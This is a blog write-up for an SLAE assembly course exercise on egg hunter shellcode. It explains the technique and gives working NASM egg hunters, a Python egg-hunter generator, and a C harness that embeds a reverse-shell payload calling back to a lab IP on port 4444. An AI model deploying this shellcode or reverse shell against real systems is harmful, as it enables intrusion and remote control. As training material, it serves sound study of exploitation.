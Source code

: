 ```yaml
---
title: SLAE Exercise 3
tags: SLAE
key: 20190611
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:
<http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html>

Student ID: SLAE - 1470

All code can be found in: <https://github.com/xMilkPowderx/SLAE-Code>

### Assignment Three:

1. Study about the egg hunter shellcode
2. Create a working demo of the egg hunter
3. Should be configurable for different payload

What exactly is an egg hunter? When buffer overflow happens, the ESP may not always have enough amount of memory space to fit our shellcode and let use to use JMP ESP to execute it. If this happens, an egg hunter will be handy. We can just include our shellcode in some where else of the memory. Then, the egg hunter code iterate through the memory address and try to locate our egg, which is appended in front of our shellcode. If an egg is found, it will jmp to the egg and execute the rest of the shellcode. 

To make it simple, I try to write down the logic in python.
```python
count = 0
egg = 0x746f6f72 #root in reverse order

for address in range(0xffffffff):
    if address == 0x726f6f74:
        count +=1
    if count == 2:
        jmp_to_shellcode()
    address += 0x1
```

According to <http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf> there are actually a few implementation of egg hunters. Here lets try to understand them one by one.
While the egg hunter travels along the memory address it may seems that all it need is to examine each address one by one. However, the truth is that there are invalid memory address which will cause your egg hunter get a segmentation fault or other runtime error in the program. So, we will need some method to test the address we are going to compare. If it is valid, we will proceed, it not, we will ignore it.

In general, there are system call that can be use to valid an address, sigaction(0x43) and access(0x21).
Below is a proof of concept of egghunter using sigaction

```
global _start

section .text

_start:

setup:
	or cx, 0xfff		;Increase by page_size
next_address:
	inc ecx
	push byte 0x43		;Systemcall for sigation
	pop eax
	int 0x80
	cmp al, 0xf2		;f2 = invalid address
	jz setup
	
	mov eax, 0x726F6F74	;EGG = root = 726F6F74
	mov edi, ecx		;move address to edi to examine
	scasd			;check eax == edi, edi = edi+4
	jnz next_address
	scasd			;check eax == edi, edi = edi+4
	jnz next_address
	jmp edi			;execute shellcode
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/sigaction-egghunter.nasm>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-1.JPG"/>

ECX is being set to end with fff every time we cannot validate the address (0xfff > 0x1000 > 0x1fff > 0x2000). This implementation is to increase ECX by page size. If the address inside a page size is invalid, the rest should be invalid too. As such, we can increase the address by page size and save sometime while searching.
Then, EAX is set to 0x43 so that we can call sigaction to help us validate the address.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-2.JPG"/>

In case the address is invalid, EAX will be set to 0xfffffff2 and by checking is al equals to f2 we know that is the address valid or not. If not, we will jump back to setup and start again.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-3.JPG"/>

Once a valid address is found, we will start the second part of our shellcode. We will first mov the value of our egg, "root" to eax. Then, the current address to be test will be moved from ecx to edi for testing. We will then use scasd to compare both EAX and value inside the address stored in EDI. 

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-4.JPG"/>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-5.JPG"/>

If two double word are not the same, we will increase ecx and test again. If yes, scasd will check the next double word to verify that this is indeed our egg. Notice that scasd, by default, will increase the address in EDI by 4 after it checked the string. So that is no need for us to increase the address value of EDI and also answered why we can just jmp EDI when the egg is found.

```
global _start

section .text

_start:
	xor edx,edx
setup:
	or dx,0xfff
next_address:
	inc edx
	lea ebx,[edx+0x4]	#Actually an optimization
	push byte +0x21
	pop eax
	int 0x80
	cmp al, 0xf2
	jz setup
	mov eax, 0x746F6F72
	mov edi, edx
	scasd
	jnz next_address
	scasd
	jnz next_address
	jmp edi	
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/access-re-egghunter.nasm>

The implementation of the access method is mostly the same as the sigaction while the access systemcall need more arguments. EBX will be needed to store the address of the string being validate. However, from the code, it seems that EBX is storing the value of EDX + 4. The reason of this is same as the page size implementation. If the value of ebx + 4 is invalid, there is no way that edx will be valid. As such according to the paper, an optimization to the shellcode.
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-6.JPG"/>

To really test the egg hunter, I will use our reverse shell shellcode for testing.
The following sample will be using the sigaction poc
```c
#include<stdio.h>
#include<string.h>

unsigned char egg_hunter[] = "\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x74\x6f\x6f\x72\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";

unsigned char egg[] = \         //reverse shell ip=192.168.170.128 port = 4444
"\x74\x6F\x6F\x72" //EGG, root
"\x74\x6F\x6F\x72"
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x89\xc6\x31\xdb\xb3\x03\xb2\x80\xc1\xe2\x08\xb2\xaa\xc1\xe2\x08\xb2\xa8\xc1\xe2\x08\xb2\xc0\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\x6a\x66\x58\xcd\x80\x87\xf3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void main(){
 printf("Length of Egg Hunter:  %d\n", strlen(egg_hunter));
 printf("Length of Shellcode:  %d\n", strlen(egg));
 int (*ret)() = (int(*)())egg_hunter;
 ret();
}
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/testEgg.c>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-7.JPG"/>

At last, below is python script to generate an Egg hunter generator with your custom egg.
```python
import binascii
import sys
import os
import getopt

def usage():
	print('getEgghunter.py -e egg | -h help')	

def main(argv):
	port = 0
	ip = ''
	hexPort = ''
	hexIP = ''
	if(len(sys.argv) < 2):
		usage()
		sys.exit()
	try:
		opts,args = getopt.getopt(sys.argv[1:], "he:", ["help", "egg="])
	except getopt.GetoptError:
		usage()
		sys.exit(2)
	for opt, arg in opts:
		if opt in ("-h", "--help"):
			usage()
			sys.exit()
		elif opt in ("-e", "--egg"):
			egg = arg
			print('Egg: ' + egg)
			if len(egg) != 4:
				print('Invalid Egg, length must be 4 characters')
				sys.exit(2)
	hexEgg = ''
	for char in egg:
		hexEgg = ('\\x' + bytes.decode(binascii.hexlify(str.encode(char)))) + hexEgg

	Shellcode = "\\x66\\x81\\xc9\\xff\\x0f\\x41\\x6a\\x43\\x58\\xcd\\x80\\x3c\\xf2\\x74\\xf1\\xb8"
	Shellcode +=hexEgg 
	Shellcode +="\\x89\\xcf\\xaf\\x75\\xec\\xaf\\x75\\xe9\\xff\\xe7"
	
	print('Egghunter: ' + Shellcode)
	print('Paste this in front of your shellcode')
	print('"' + hexEgg + '"')
	print('"' + hexEgg + '"')

if __name__ == '__main__':
	main(sys.argv[1:])
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/genEgghunter.py>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-7.JPG"/>